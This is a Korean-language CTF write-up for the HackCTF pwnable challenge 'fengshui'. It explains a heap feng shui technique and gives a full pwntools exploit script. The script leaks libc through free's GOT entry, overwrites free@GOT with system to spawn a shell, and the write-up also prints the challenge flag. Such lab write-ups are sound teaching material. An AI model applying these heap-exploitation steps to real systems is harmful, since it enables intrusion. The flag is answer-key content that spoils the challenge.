 # _ 풍수지리_

**Category:** _Pwnable_

**Source:** _HackCTF_

**Points:** _400_

**Author:** _galaxy(김경환)_

**Description:** 

> ![img](resource/prob.png)

## Point
Heal fengshui(uaf와 비슷)

## Write-up

![img](resource/menu.png)

fengshui를 실행시키면 위처럼 메뉴가 나타납니다.

이전에 uaf로 풀었었던 문제와 비슷한 프로그램인것 같습니다.

문제이름인 fengshui는 heap에서 사용되는 기법입니다.(thanks to 반진영님)

간단하게 말하면 2개의 malloc를 한묶음으로 사용할때 heap재사용 취약점을 이용해서 2개의 heap을 멀리 떨어뜨려 줍니다. 그러면 중간에 있는 heap들은 overflow가 가능해 집니다.

함수는 add_location, delete_location, display_location, update_desc 가 있습니다.

각 함수에 대해 간략하게 설명하자면(ida 캡쳐화면있으면 좋을텐데...빨리 자재 신청좀...)

add_location
 - malloc으로 입력받은 크기만큼 할당 (h1)
 - malloc로 0x80크기만큼 할당 (h2)
 - h2의 data영역에 h1입력
 - 입력받은 크기만큼 data영역 h1이후 입력 (user input)

delete_location
 - h1 free
 - h2 free

display_location
 - user input 출력
 - h1 출력

update_desc
 - h2 data영역에 있는 h1이 가리키는 곳의 값을 수정

exploit 순서입니다. (add_location에서 할당 받을때 malloc을 두번하는데 m1-1, m1-2로 표시하겠습니다. 앞의 숫자는 malloc를 실행한 순서입니다.) 
 1. add_location으로 3개의 heap을 할당받는다.(m1은 free후 malloc할때 fengshui를 하기 위한 용도, m2는 overflow되어서 free의 got를 입력할곳, m3는 "/bin/sh\x00"을 입력할 곳)

 2. m1을 free 후 다시 malloc합니다. 이때 m4-1 크기를 0x80으로 줍니다.(앞에 free됐던 malloc2개가 fastbin에 있습니다. 이때 0x80크기의 chunk를 재할당 받아서 m4-1은 앞에, m4-2는 가장 뒤에 할당 받습니다.)

 3. free의 address를 알기 위해서 재할당 받는 m4-1의 data를 입력할때 overflow시켜서 m2-2의 data영역에 있는 m2-1의 주소를 free의 got로 덮어씁니다.

 4. display_location으로 m2를 호출하면 m2-1의 4byte이후를 print하고 m2-2를 print해야 하는데 이때 m2-1에 있는 주소를 사용합니다. 하지만 free_got로 수정했기때문에 free_got에 있는 값을 출력합니다.

 5. 알아내 free의 실제주소로 library를 찾고 free offset, system offset을 찾습니다. 이것으로 system의 실제 주소를 계산합니다.

 6. update_desc로 m2를 호출하면 m2-1의 data영역 첫번째가 가리키는 곳(원래는 m2-2)를 수정할 수 있습니다. m2-1의 data영역엔 overflow되어서 free_got가 있습니다. free_got의 값을 system address로 덮어씁니다.

 7. system함수를 호출하기 위해 free가 있는 delete_location을 호출합니다. 이때 m3를 호출하면 미리 작성되어있던 "/bin/sh\x00"이 인자로 들어가고 free대신 system이 호출되면서 exploit됩니다.


아래는 python 스크립트입니다.

```python
from pwn import *

if __debug__:
	script='''b display_location
	b add_location
	c'''
	p=gdb.debug('./fengshui',script)
	#p=process('./fengshui')
else:
	p=remote('ctf.j0n9hyun.xyz','3028')


def add(size,text):
	p.recvuntil('Choice: ')
	p.sendline('0')
	p.recvuntil('description: ')
	p.sendline(str(size))
	p.recvuntil('Name: ')
	p.sendline('/bin/sh\x00')
	p.recvuntil('length: ')
	p.sendline(str(len(text)))
	p.recvuntil('Text: ')
	p.sendline(text)

def delete(index):
	p.recvuntil('Choice: ')
	p.sendline('1')
	p.recvuntil('Index: ')
	p.sendline(str(index))

def display(index):
	p.recvuntil('Choice: ')
	p.sendline('2')
	p.recvuntil('Index: ')
	p.sendline(str(index))	

def update(index,text):
	p.recvuntil('Choice: ')
	p.sendline('3')
	p.recvuntil('Index: ')
	p.sendline(str(index))
	p.recvuntil('length: ')
	p.sendline('10')
	p.recvuntil('Text: ')
	p.sendline(text)
	


got_free=p32(0x0804b010)
free_offset=0x71470
system_offset=0x3ada0

add(10,'aaaa')
add(10,'bbbb')
add(10,'/bin/sh\x00')
delete(0)
add(0x80,'c'*152+got_free+'AAAA')
#add(0x80,'c'*160+got_free+'AAAA')
display(1)
p.recvline()
p.recvuntil('tion: ')
free_addr=u32(p.recv(4))
libc=free_addr - free_offset
system_addr = p32(libc + system_offset)
#system_addr=0xf7e0d6e0

update(1,system_addr)

delete(2)

p.interactive()
p.close()
```



HackCTF{1_h34rd_1t_thr0ugh_th3_gr4p3v1n3}

## References
heap fengshui 기법 설명
http://blog.naver.com/PostView.nhn?blogId=yjw_sz&logNo=221532522902&parentCategoryNo=&categoryNo=&viewDate=&isShowPopularPosts=false&from=postView
